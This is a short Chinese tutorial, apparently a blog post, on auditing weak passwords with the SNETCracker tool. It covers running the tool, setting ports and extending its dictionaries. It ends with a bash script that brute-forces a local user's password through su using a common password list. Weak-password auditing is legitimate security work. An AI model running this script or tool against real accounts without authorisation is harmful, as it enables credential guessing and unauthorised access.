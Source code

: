 # 超级弱口令检查工具

最新推荐文章于 2025-03-31 10:33:50 发布

### 一、背景

> 弱口令问题主要源于用户和管理员的安全意识不足，以及为了方便记忆而采用简单易记的密码。这些密码往往仅包含简单的数字和字母，缺乏复杂性和多样性，因此极易被破解。弱口令的存在严重威胁到系统和用户的数据安全，使得攻击者能够轻易进入系统或管理界面，进行数据的篡改、删除或非法获取。

### 二、超级弱口令检查工具使用

> **工具下载链接：**[https://github.com/shack2/SNETCracker/releases](https://github.com/shack2/SNETCracker/releases)

#### 1、运行

解压之后找到SNETCracker.exe程序双击运行即可。

![image.png](https://minioapi.nerubian.cn/image/20250516173403791.png)

#### 2、自定义端口设置

可以根据自己服务自定义的端口进行设置，默认设置一般该服务的默认端口！

![image.png](https://minioapi.nerubian.cn/image/20250516173409771.png)

#### 3、更新字典

这款工具最大的依赖是一本强大的字典，所以日常的收集也是很重要的，左边是对应的服务对应的默认字典（由研发改工具的师傅提供），将自己收集到的弱口令可以找到对应的服务在右边添加进行更新，这样就能让这款工具更加强大！

![image.png](https://minioapi.nerubian.cn/image/20250516173413699.png)


# 脚本内部爆破

```
#!/bin/bash
USER="runner"
PASSWORD_FILE="xato-net-10-million-passwords-10000.txt"

while IFS= read -r PASS; do
  echo "$PASS" | su - "$USER" -c "exit" >/dev/null 2>&1
  if [ $? -eq 0 ]; then
    echo "SUCCESS：user: '$USER' password: '$PASS'" > $0.out
    exit 0
  fi
done < "$PASSWORD_FILE"
echo "end"
```